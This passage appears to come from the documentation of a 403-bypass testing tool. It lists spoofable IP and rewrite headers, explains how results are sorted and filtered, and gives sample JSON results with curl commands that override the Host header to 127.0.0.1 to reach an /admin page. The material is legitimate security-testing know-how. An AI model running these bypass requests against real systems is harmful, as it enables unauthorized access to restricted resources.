 ```fundamental
X-ProxyUser-IP
X-Real-IP
X-Referer
X-Remote-Addr
X-Remote-IP
X-Rewrite-URL
X-Scheme
X-Server-IP
X-True-Client-IP
X-True-IP
X-URL-Scheme
X-Wap-Profile
```

## Results

**Remarks:**

* Results will be sorted by HTTP response status code `ascending`, HTTP response body length `descending`, and test ID `ascending`.
* By default, only `2xx` and `3xx` HTTP response status codes are included in the results and shown in the console output.
* The `length` attribute in the results refers to the HTTP response body length.
* To manually filter out `false positive` results, for each unique HTTP response content length, run the provided cURL command and check if the HTTP response results in bypass; if not, simply ignore all the results with the same content length.

```json
[
   {
      "id":"595-HOST-OVERRIDES-1",
      "url":"https://example.com:443/admin",
      "method":"GET",
      "headers":[
         "Host: 127.0.0.1"
      ],
      "cookies":[],
      "body":"",
      "user_agent":"Forbidden/13.0",
      "command":"curl --path-as-is -iskL -A 'Forbidden/13.0' -H 'Host: 127.0.0.1' -X 'GET' 'https://example.com:443/admin'",
      "status":200,
      "length":14301
   },
   {
      "id":"596-HOST-OVERRIDES-1",
      "url":"https://example.com:443/admin",
      "method":"GET",
      "headers":[
         "Host: 127.0.0.1:443"
      ],
      "cookies":[],
      "body":"",
      "user_agent":"Forbidden/13.0",
      "command":"curl --path-as-is -iskL -A 'Forbidden/13.0' -H 'Host: 127.0.0.1:443' -X 'GET' 'https://example.com:443/admin'",
      "status":200,
      "length":14301
   }
]
```
